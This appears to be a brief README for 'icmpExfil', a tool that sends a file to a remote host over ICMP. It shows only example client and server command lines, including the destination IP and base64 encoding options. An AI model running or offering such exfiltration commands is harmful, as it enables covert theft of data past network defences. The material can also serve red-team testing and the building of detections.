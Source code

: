 # icmpExfil

## Example Usage

client: sudo ./icmp_exfil_client.py -f ./myFile -d 128.237.11.23 -c 100 -s 1000 -e base64

server: sudo ./icmp_exfil_server.py -e base64
